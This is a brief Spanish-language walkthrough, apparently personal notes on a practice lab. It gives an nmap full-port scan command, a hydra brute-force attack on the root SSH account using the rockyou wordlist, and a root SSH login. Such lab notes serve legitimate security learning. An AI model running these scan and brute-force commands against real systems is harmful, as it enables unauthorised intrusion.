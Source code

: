 1. Realizamos un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia la IP objetivo:
`nmap -p- -sS -sCV --min-rate 5000 -n -vvv -Pn <IP> -oN <NombreFichero>
![[Pasted image 20241117183809.png]]

2.  Realizamos un ataque por fuerza bruta ([[HYDRA]]) al usuario root por SSH:
` hydra -l root  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
![[Pasted image 20241117184017.png]]

3.  Accedemos mediante SSH al usuario root:
`ssh root@IP`

